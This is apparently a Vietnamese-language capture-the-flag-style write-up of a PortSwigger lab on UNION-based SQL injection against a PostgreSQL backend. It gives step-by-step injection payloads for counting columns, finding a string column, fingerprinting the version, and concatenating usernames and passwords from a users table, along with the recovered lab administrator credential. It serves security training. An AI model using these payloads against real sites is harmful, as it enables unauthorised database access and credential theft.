



# Write-up: SQL Injection UNION Attack, Retrieving Multiple Values in a Single Column

### Tổng quan 
Write-up này ghi lại quá trình giải bài lab SQL Injection trên PortSwigger Web Security Academy tập trung vào việc khai thác SQL injection bằng tấn công UNION để lấy username và password từ bảng users 

### Mục tiêu
Trích xuất tất cả username và password sau đó đăng nhập với tài khoản administrator 

### Công cụ sử dụng
- Burpsuite Community
- FireFox Browser 

### Các bước thực hiện 
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `category` trong URL (`filter?category=Gifts`) và thêm `'` để kích hoạt lỗi SQL:
   - **Kết quả**: Lỗi SQL xuất hiện, xác nhận lỗ hổng.
   

- Sử dụng BurpSuite để kiểm tra số cột với payload:
    ```
    filter?category=Gifts'+UNION+SELECT+NULL,NULL--
    ```
  - **Kết quả**: Xác định 2 cột.
- Xác nhận Cột hiển thị chuỗi bằng:
  ```
  Payload:
  filter?category=Gifts'+UNION+SELECT+'test',NULL--

  ->Internal Server Error
  ```

  ```
  Payload:
  filter?category=Gifts'+UNION+SELECT+NULL,'test'--

  -> Cột 2 hiển thị kết quả trả về
  ```
2. **Tạo Payload**
- Kiểm tra version của web để xác định kiểu String concatenation
    ```
    filter?category=Gifts'+UNION+SELECT+NULL,+version()--

    -> PostgreSQL 12.22 (Ubuntu 12.22-0ubuntu0.20.04.2) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, 64-bit
    ```

- Tạo payload UNION để nối username và password:
    ```
    'UNION SELECT NULL, username || '~' || password FROM users--
    ```

3. **Khai thác (Exploitation)**
- Gửi payload qua Burp Repeater:
    ```
    GET /filter?category=Gifts'UNION+SELECT+NULL,+username+||+'~'+||+password+FROM+users-- HTTP/2
    ```
    - **Kết quả**: Lấy được `administrator~g5qqbext2s584y1e0i1g`
    

- Đăng nhập lại `/login` với thông tin trên, hoàn thành lab.
  

### Bài học rút ra
- Nâng cao kĩ năng UNION để trích xuất dữ liệu đa cột.
- Tối ưu hóa BurpSuite trong khai thác SQLi

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: UNION Attacks

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng SQL injection và sử dụng Burp Suite. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.